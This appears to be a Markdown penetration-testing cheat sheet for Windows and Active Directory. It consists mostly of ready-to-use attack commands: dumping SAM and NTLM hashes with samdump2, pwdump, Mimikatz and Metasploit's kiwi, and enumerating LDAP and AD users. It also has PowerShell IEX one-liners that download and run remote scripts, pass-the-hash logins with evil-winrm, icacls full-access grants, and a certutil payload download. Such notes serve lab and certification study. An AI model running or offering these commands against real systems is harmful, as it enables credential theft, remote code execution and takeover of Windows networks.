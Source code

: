 ### SAM (Security Account Manager)
A file that store Windows user credential. It can only be accessed when the Windows OS is not booted up. (Eg. from another OS) <br />
Passwords are LM & NTLM hashed <br />
```
Default file location: 
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SYSTEM

Dumping hashes:
samdump2 SYSTEM SAM
pwdump.py SYSTEM SAM    # For Windows 10

Format of Hashes:
[USERNAME]:[RID]:[LMHash]:[NTLMHash]:::   # RID = Relative Identifier
```

Ref: https://techgenix.com/how-cracked-windows-password-part2/

### Active Directory & LDAP
Enum
```
nmap -n -sV --script "ldap* and not brute" [IP_ADDR]
ldapsearch -h [IP_ADDR] -x -b "dc=[DC],dc=[DC]"
windapsearch.py -d [DOMAIN] --dc-ip [IP_ADDR] -U    # -U to enumerate all AD users; -G for AD group enumerate

Database of AD stored on C:\Windows\NTNDS\ntds.dit of DC
```
Ref: https://book.hacktricks.xyz/pentesting/pentesting-ldap

### PowerShell
```
C:\Users\[username]\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt   # check powershell history
IEX ( IWR http://[IP_ADDR]/[PATH] -UseBasicParsing)   # equil linux wget http://[IP_ADDR]/[PATH] to upload file to the server
iwr http://[IP_ADDR]/[PATH] -OutFile [FILE]
IEX(New-Object Net.Webclient).downloadString('http://[IP_ADDR]/[PATH]')
Get-ADDomain | select DNSRoot,NetBIOSName,DomainSID   # retrieve SID
nltest /domain_trusts   # show inbound/outbound trust
Get-ADUser -Filter * | select SamAccountName    # list users(name ending with $ indicate trust keys being stored)
Get-ADObject -LDAPFilter "objectClass=User" -Properties SamAccountName | select SamAccountName    # to retrieve user and computer accounts(ending with $)

```

### Metasploit
```
getsystem
load kiwi   # mimikatz
lsa_dump_sam
```

### iCACLS.exe
```
Change file and folder permission 
icacls [FILE] /grant [USERNAME]:F   # :F for full access
```
Ref: https://ss64.com/nt/icacls.html

### RPC
```
rpcdump.py [USERNAME]@[IP_ADDR]
rpcclient -U '' [IP_ADDR]
  > enumdomusers    # to get list of users after signin
```

### Evil-WinRM
```
evil-winrm -i [IP_ADDR] -u [USERNAME] -H [HASH]   # hash retrievable from secretsdump.py machines/smb
evil-winrm -i [IP_ADDR] -u [USERNAME] -p [PASSWORD]
```

### Tcpdump
```
tcpdump -i tun0 icmp -v   # listen for icmp ping to tun0 interface
```

### Mimikatz
```
privilege::debug
token::elevate
lsadump::sam
```

### wget equivalant
```
certutil.exe -f -urlcache -split http://192.168.49.157/winPEASany.exe
```
